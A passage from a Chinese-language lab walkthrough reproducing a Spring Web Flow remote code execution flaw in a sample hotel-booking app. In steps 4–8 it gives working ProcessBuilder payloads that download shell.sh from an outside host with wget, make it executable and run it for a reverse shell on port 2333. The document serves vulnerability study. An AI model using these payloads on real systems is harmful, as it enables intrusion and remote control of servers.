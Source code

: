 * 点击进入选择maven功能里的Existing Maven Project选项

![Spring]({{ site.baseurl }}/images/yaof_images/17.png)

* 选择你工程的路径直接导入点击Finish按钮进行导入

![Spring]({{ site.baseurl }}/images/yaof_images/18.png)

* 成功导入工程后找到WebFlowConfig.java文件，将文件中factoryCreator.setUseSpringBeanBinding(true);的true改为false：

![Spring]({{ site.baseurl }}/images/yaof_images/19.png)

* 点击工程直接运行就可以看到生成的网页：

![Spring]({{ site.baseurl }}/images/yaof_images/20.png)

### 4.3&emsp;漏洞复现 ###

1.点击页面中的超链接进入图书搜索页面，在页面中输入搜索内容进行搜索

![Spring]({{ site.baseurl }}/images/yaof_images/22.png)

2.搜索到图书点击View hotel按钮，然后点击Book hotel按钮，如果没有登录请先登录（登录名密码圈出来了，4种任意都可以登录）

![Spring]({{ site.baseurl }}/images/yaof_images/21.png)

3.进入借书页面，随意写入16位Credit Card id和Credit Card Name点击Process按钮

![Spring]({{ site.baseurl }}/images/yaof_images/24.png)

4.在点击Confirm按钮前我们需要进行burpsuite进行拦截抓包，截获数据包send to repeater，篡改数据包添加恶意payload：`&_(new+java.lang.ProcessBuilder("/usr/bin/wget","-P/tmp","http://192.168.159.128/shell.sh")).start()=feifei`，shell.sh放在可以访问的服务器中，执行请求包。

![Spring]({{ site.baseurl }}/images/yaof_images/1.png)

5.查看自己虚拟机的/tmp目录下有没有成功下shell.sh,可以看到shell.sh成功下载

![Spring]({{ site.baseurl }}/images/yaof_images/2.png)

6.至此已经复现了漏洞，可是我们既然想代码执行，那我们就可以进行反弹shell操作，继续执行命令，添加payload：`&_(new+java.lang.ProcessBuilder("/bin/chmod","777","/tmp/shell.sh")).start()=feifei`对shell.sh修改权限

![Spring]({{ site.baseurl }}/images/yaof_images/3.png)

7.查看虚拟机中的/tmp目录下的shell.sh有没有变成可读可写可执行权限，可以看到shell.sh权限成功变成777

![Spring]({{ site.baseurl }}/images/yaof_images/4.png)

8.执行shell.sh文件同时监听2333端口，执行payload:`&_(new+java.lang.ProcessBuilder("/bin/bash","/tmp/shell.sh")).start()=feifei`

![Spring]({{ site.baseurl }}/images/yaof_images/5.png)
